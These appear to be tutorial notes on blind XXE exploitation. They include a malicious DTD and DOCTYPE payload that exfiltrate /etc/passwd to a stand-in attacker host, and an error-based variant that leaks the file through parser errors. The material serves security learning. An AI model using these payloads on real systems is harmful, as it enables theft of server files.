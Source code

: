 ## Exploit Blind XXE to Exfiltrate data out-of-band (OAST)
- detecting vulnerability via out-of-band technique is well but exploitation to exfiltrate data via this is not easy.
- This can be achieved via a blind XXE vulnerability, but it involves the attacker hosting a malicious DTD on a system that they control, and then invoking the external DTD from within the in-band XXE payload.
- **Example of malicious DTD** 
```js
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval " <!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker.com or we use burp collaborator/?x=%file;'> ">
%eval;
%exfiltrate
```
This `DTD` carries out the following steps
- defines an XML parameter entity called `file`, containing the contents of the `/etc/passwd ` file.
- Defines an XML parameter entity called `eval` containing a dynamic declaration of another XML parameter entity called `exfiltrate`. 
- this exfiltrate entity will be evaluated by making HTTP request to the attacker's control web server containing the value of the `%file` entity to url query string.
- uses `eval` entity, which causes the dynamic declaration of the `exfiltrate` entity to be performed.
- uses the `exfiltrate` entity, so that its value is evaluated by requesting the specified URL.
- the attacker must host this malicious `DTD` file in to his server `http://attacker.domain/malicious.dtd`
- and finally attacker need to submit the payload to the `xxe vuln` application.
```js
<!DOCTYPE root [<!ENTITY % dk SYSTEM "http://attacker.domain/malicious.dtd"> %dk; ]>
```

## Exploiting XXE to retrieve data via error messages.
- alternative approach to exploiting `blind XXE` is to trigger an XML parsing error where the error message contains the sensitive data that you wish to retrieve.
- this will be effective if the application returns the resulting error message within its response.
```js
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```
this DTD carries out the following
1. Defines an XML Parameter entity called `file`, containing the contents of the `/etc/passwd` file.
2. defines an XML parameter entity called `eval`, containing a dynamic declaration of another XML parameter entity called `error` . the error entity will be evaluated by loading a nonexistent file whose name contains the value of the file entity.
3. Uses the eval entity which causes declaration of the error entity to be performed.
4. uses the error entity, so that its value is evaluated by attempting to load the nonexistent file, resulting in an error message containing the name of the nonexistent file, which is the contents of the `/etc/passwd` file.
5. for exploitation put that `malicious.dtd` file to exploit server and then request to that file using `XXE injection ` and it gives error with output of `%file` entity.
invoking malicious `external DTD` will result in an error message containing the contents of the file /etc/passwd
